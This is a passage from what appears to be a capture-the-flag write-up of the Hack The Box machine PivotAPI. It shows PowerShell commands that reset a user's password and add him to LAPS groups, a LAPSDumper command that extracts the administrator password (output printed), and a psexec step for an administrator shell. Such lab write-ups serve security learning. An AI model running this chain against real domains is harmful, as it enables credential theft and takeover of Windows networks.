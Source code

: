 
Giving Gibdeon laps adm and laps read groups, thus we can leverage this to read the administrator's password from the LAPS service using LAPS dumper.

```sh

$pwd = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Set-DomainUserPassword -Identity gibdeon -AccountPassword $pwd

$cred = New-Object System.Management.Automation.PSCredential('LicorDeBellota\Gibdeon', $pwd)

Add-AdGroupMember -Identity 'laps adm' -Members gibdeon -Credential $cred
Add-AdGroupMember -Identity 'laps read' -Members gibdeon -Credential $cred

```


### laps.py

[laps](https://raw.githubusercontent.com/n00py/LAPSDumper/main/laps.py)

```bash

python3 laps.py -u gibdeon -p 'Password123!' -d LicorDeBellota.htb -l 10.10.10.240

PIVOTAPI$:9EQG95qdtjb9QRj8A4D9

```

# Root

```bash

impacket-psexec administrador@10.10.10.240

```

![](20211107185853.png)